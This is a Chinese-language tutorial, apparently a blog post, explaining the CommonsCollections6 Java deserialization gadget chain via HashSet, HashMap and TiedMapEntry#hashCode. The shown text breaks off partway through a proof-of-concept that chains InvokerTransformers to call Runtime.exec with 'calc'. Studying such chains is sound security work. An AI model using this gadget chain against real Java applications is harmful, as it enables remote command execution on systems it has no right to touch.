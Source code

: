 ## CommonsCollections6
在 CC5 中我们使用了`TiedMapEntry#toString`来触发`LazyMap#get`，在 CC6 中是通过 `TiedMapEntry#hashCode` 来触发
>测试环境：
JDK 1.7/JDK 1.8
Commons Collections 3.1

### 前置知识
#### HashSet
在 HashSet 的 readObject 方法中，会调用其内部 HashMap 的 put 方法，将值放在 key 上
![](https://img-blog.csdnimg.cn/d1bf8c0ec2dc4c41939cf16302bd5bbc.png)

#### HashMap
`java.util.HashMap`可以说是最常用的 Map 的实现类
HashMap 为提升操作效率，根据键的 hashCode 值存储数据，并引入了链表来解决 hash 碰撞的问题，因此具有很快的访问速度。总体来说，HashMap 就是数组和链表的结合体

在使用 HashMap 的 put 方法时，会对 key 进行 hash，触发解析
![](https://img-blog.csdnimg.cn/91ef76201af144df8f005935a3c142fe.png)
![](https://img-blog.csdnimg.cn/a39b2eb7f07943a7bbfa88d4d020c959.png)

那么就可以触发`TiedMapEntry#hashCode`，接着触发`TiedMapEntry#getValue`，走到了cc5的后半段了
### 攻击构造
POC：
```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.keyvalue.TiedMapEntry;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class cc6 {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {

        Transformer Testtransformer = new ChainedTransformer(new Transformer[]{});

        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[]{}}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[]{}}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        Map map=new HashMap();
        Map lazyMap=LazyMap.decorate(map,Testtransformer);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(lazyMap,"test");

        HashSet hashSet=new HashSet(1);
        hashSet.add(tiedMapEntry);
        lazyMap.remove("test");

        //通过反射覆盖原本的iTransformers，防止序列化时在本地执行命令
```